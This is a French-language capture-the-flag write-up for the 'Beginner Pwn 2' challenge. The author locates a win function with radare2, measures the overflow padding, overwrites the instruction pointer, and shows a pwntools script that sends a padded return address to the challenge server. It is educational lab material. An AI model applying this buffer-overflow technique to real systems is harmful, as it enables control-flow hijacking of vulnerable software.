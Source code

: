 # Beginner Pwn 2 - Nerumir

- On nous donne un binaire appelé "binary" (original ça...). Je l'inspecte avec radare2 et je trouve une fonction `win`, donc je note l'adresse, je regarde un peu dedans, toujours avec radare2, et je vois qu'effectivement elle nous affiche le flag..

![Analyse des symboles](data/symbols.png =250x)
![Désassemblage de la fonction win](data/win.png) 

- J'execute le programme et je peux rentrer un argument, je tape donc un truc pour déclancher une overflow, je note le padding et puis je mets des patterns un peu différents pour distinguer les octets et voir comment est écrasé le pointer d'instruction (RIP en 64bits et EIP en 32bits, c'est IP = Instruction Pointer).

![Écrasement du Instruction Pointer](data/rip.png) 

- J'écris donc mon payload et je galère mes morts avec pwntools mais Imane est trop forte donc elle m'apprend à utiliser cet outils, il se trouve que je savais simplement que les méthodes de pwntools renvoyait un argument en `return` et non en `print` dans la sortie standard `stdout`....
- Ca ne marche pas, la fonction ne s'execute pas, cependant j'essaye alors ne me mette sur l'adresse de l'instruction suivante et ça fonctionne (des fois il faut un peu se décaler à l'intérieur de la fonction... Toujours en début d'instruction évidemment).

Voici le script : 

```python
from pwn import *

p = remote ('chals.swampctf.com', 40001)

payload = b'AAAAAAAAAAAAAAAAAA'
payload += p64(0x00401187)
p.clean()
p.sendline(payload)
response = p.recv(1024)
print(response)
```

> [!WARNING]
> A noter qu'au lieu de `p64` on pourrait écrire directement `\x87\x11\x40\x00\x00\x00\x00\x00`, ce qui revient à le mettre en `little endian` et à rajouter du padding car c'est une adresse 64bits donc stockées sur 8 octets. Et on trouve le flag !

![Obtention du flag](data/flag.png) 
